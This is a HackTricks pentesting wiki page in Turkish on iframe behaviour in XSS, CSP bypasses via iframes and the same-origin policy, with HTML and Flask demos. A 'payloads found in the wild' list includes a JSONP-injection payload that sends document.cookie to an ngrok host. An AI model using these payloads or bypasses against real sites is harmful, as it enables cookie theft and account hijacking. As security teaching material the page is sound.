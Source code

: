 # XSS'te İframeler, CSP ve SOP

<details>

<summary><strong>Sıfırdan kahraman olacak şekilde AWS hacklemeyi öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

* **Bir **cybersecurity şirketinde mi çalışıyorsunuz? **Şirketinizi HackTricks'te reklamını görmek ister misiniz**? ya da **PEASS'ın en son sürümüne erişmek veya HackTricks'i PDF olarak indirmek ister misiniz**? [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* **Katılın** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**'ı takip edin**.
* **Hacking püf noktalarınızı göndererek PR'lerle paylaşın** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **ve** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## XSS'te İframeler

Bir iframeli sayfanın içeriğini belirtmenin 3 yolu vardır:

* `src` ile bir URL belirterek (URL çapraz kökenli veya aynı kökenli olabilir)
* `data:` protokolünü kullanarak içeriği belirterek `src` ile
* İçeriği belirterek `srcdoc` kullanarak
```html
<html>
<script>
var secret = "31337s3cr37t";
</script>

<iframe id="if1" src="http://127.0.1.1:8000/child.html"></iframe>
<iframe id="if2" src="child.html"></iframe>
<iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
<iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>

<script>
function access_children_vars(){
alert(if1.secret);
alert(if2.secret);
alert(if3.secret);
alert(if4.secret);
}
setTimeout(access_children_vars, 3000);
</script>
</html>
```

```html
<!-- content of child.html -->
<script>
var secret="child secret";
alert(parent.secret)
</script>
```
Eğer önceki html'e bir http sunucusu üzerinden erişirseniz (örneğin `python3 -m http.server` gibi) tüm scriptlerin yürütüldüğünü fark edeceksiniz (çünkü bunu engelleyen bir CSP yoktur). **Ana içerik, herhangi bir iframe içindeki `secret` değişkenine erişemez** ve **yalnızca aynı site olarak kabul edilen if2 ve if3 iframeleri orijinal penceredeki `secret`e erişebilir**.\
if4'ün `null` kökene sahip olduğuna dikkat edin.

### CSP ile İframeler <a href="#iframes_with_csp_40" id="iframes_with_csp_40"></a>

{% hint style="info" %}
Lütfen, aşağıdaki bypasslarda iframelenen sayfanın yanıtının JS yürütmesini engelleyen herhangi bir CSP başlığı içermediğine dikkat edin.
{% endhint %}

`script-src`'nin `self` değeri, JS kodunun `data:` protokolünü veya `srcdoc` özniteliğini kullanarak yürütülmesine izin vermeyecektir.\
Ancak, CSP'nin `none` değeri bile, `src` özniteliğine URL (tam veya sadece yol) ekleyen iframelerin yürütülmesine izin verecektir.\
Bu nedenle, bir sayfanın CSP'sini aşmak mümkündür:
```html
<html>
<head>
<meta http-equiv="Content-Security-Policy" content="script-src 'sha256-iF/bMbiFXal+AAl9tF8N6+KagNWdMlnhLqWkjAocLsk='">
</head>
<script>
var secret = "31337s3cr37t";
</script>
<iframe id="if1" src="child.html"></iframe>
<iframe id="if2" src="http://127.0.1.1:8000/child.html"></iframe>
<iframe id="if3" srcdoc="<script>var secret='if3 secret!'; alert(parent.secret)</script>"></iframe>
<iframe id="if4" src="data:text/html;charset=utf-8,%3Cscript%3Evar%20secret='if4%20secret!';alert(parent.secret)%3C%2Fscript%3E"></iframe>
</html>
```
Not alınan CSP'nin yalnızca iç içe betiğin yürütülmesine izin verdiğine **dikkat edin**.\
Ancak, yalnızca `if1` ve `if2` betiklerinin yürütüleceğine ancak yalnızca `if1`'in üst öğeye erişebileceğine **dikkat edin**.

![](<../../.gitbook/assets/image (369).png>)

Bu nedenle, bir JS dosyasını sunucuya yükleyebilir ve bunu iframe aracılığıyla yükleyebilirseniz, `script-src 'none'` ile bile bir CSP'yi **atlayabilirsiniz**. Bu, aynı site JSONP uç noktasını **istismar ederek de mümkün olabilir**.

Bunu, bir çerezin `script-src 'none'` ile bile çalındığı aşağıdaki senaryo ile test edebilirsiniz. Uygulamayı çalıştırın ve tarayıcınızdan erişin:
```python
import flask
from flask import Flask
app = Flask(__name__)

@app.route("/")
def index():
resp = flask.Response('<html><iframe id="if1" src="cookie_s.html"></iframe></html>')
resp.headers['Content-Security-Policy'] = "script-src 'self'"
resp.headers['Set-Cookie'] = 'secret=THISISMYSECRET'
return resp

@app.route("/cookie_s.html")
def cookie_s():
return "<script>alert(document.cookie)</script>"

if __name__ == "__main__":
app.run()
```
### Vahşi Doğada Bulunan Diğer Yükler <a href="#other_payloads_found_on_the_wild_64" id="other_payloads_found_on_the_wild_64"></a>
```html
<!-- This one requires the data: scheme to be allowed -->
<iframe srcdoc='<script src="data:text/javascript,alert(document.domain)"></script>'></iframe>
<!-- This one injects JS in a jsonp endppoint -->
<iframe srcdoc='<script src="/jsonp?callback=(function(){window.top.location.href=`http://f6a81b32f7f7.ngrok.io/cooookie`%2bdocument.cookie;})();//"></script>
<!-- sometimes it can be achieved using defer& async attributes of script within iframe (most of the time in new browser due to SOP it fails but who knows when you are lucky?)-->
<iframe src='data:text/html,<script defer="true" src="data:text/javascript,document.body.innerText=/hello/"></script>'></iframe>
```
### Iframe kum havuzu

Bir iframe içindeki içerik, `sandbox` özniteliğinin kullanımıyla ek kısıtlamalara tabi tutulabilir. Varsayılan olarak, bu öznitelik uygulanmaz, yani herhangi bir kısıtlama bulunmamaktadır.

Kullanıldığında, `sandbox` özniteliği birkaç kısıtlama getirir:

- İçerik, benzersiz bir kaynaktan geldiği gibi işlenir.
- Form gönderme girişimleri engellenir.
- Komut dosyalarının yürütülmesi yasaklanmıştır.
- Belirli API'lere erişim devre dışı bırakılmıştır.
- Bağlantıların diğer gezinme bağlamlarıyla etkileşimini engeller.
- `<embed>`, `<object>`, `<applet>` veya benzer etiketler aracılığıyla eklentilerin kullanımı yasaktır.
- İçeriğin üst düzey gezinme bağlamının içeriğin kendisi tarafından engellenmesi.
- Video oynatma veya form kontrollerinin otomatik odaklanması gibi otomatik olarak tetiklenen özellikler engellenir.

Özniteliğin değeri, tüm yukarıdaki kısıtlamaların uygulanması için boş bırakılabilir (`sandbox=""`). Aksi takdirde, belirli kısıtlamalardan bir iframe'ın muaf olmasını sağlayan belirli değerlerin boşlukla ayrılmış bir listesi olarak ayarlanabilir.
```html
<iframe src="demo_iframe_sandbox.htm" sandbox></iframe>
```
## Iframe'lerde SOP

Aşağıdaki sayfalara bakın:

{% content-ref url="../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md" %}
[bypassing-sop-with-iframes-1.md](../postmessage-vulnerabilities/bypassing-sop-with-iframes-1.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md" %}
[bypassing-sop-with-iframes-2.md](../postmessage-vulnerabilities/bypassing-sop-with-iframes-2.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md" %}
[blocking-main-page-to-steal-postmessage.md](../postmessage-vulnerabilities/blocking-main-page-to-steal-postmessage.md)
{% endcontent-ref %}

{% content-ref url="../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md" %}
[steal-postmessage-modifying-iframe-location.md](../postmessage-vulnerabilities/steal-postmessage-modifying-iframe-location.md)
{% endcontent-ref %}

<details>

<summary><strong>Sıfırdan kahraman olmak için AWS hackleme</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> öğrenin!</strong></summary>

* **Bir **cybersecurity şirketinde mi çalışıyorsunuz? **Şirketinizi HackTricks'te** görmek ister misiniz? ya da **PEASS'ın en son sürümüne erişmek veya HackTricks'i PDF olarak indirmek** ister misiniz? [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* **Katılın** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) veya **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**'u takip edin.**
* **Hacking püf noktalarınızı paylaşarak PR'lar göndererek** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **ve** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud) **ile paylaşın.**

</details>
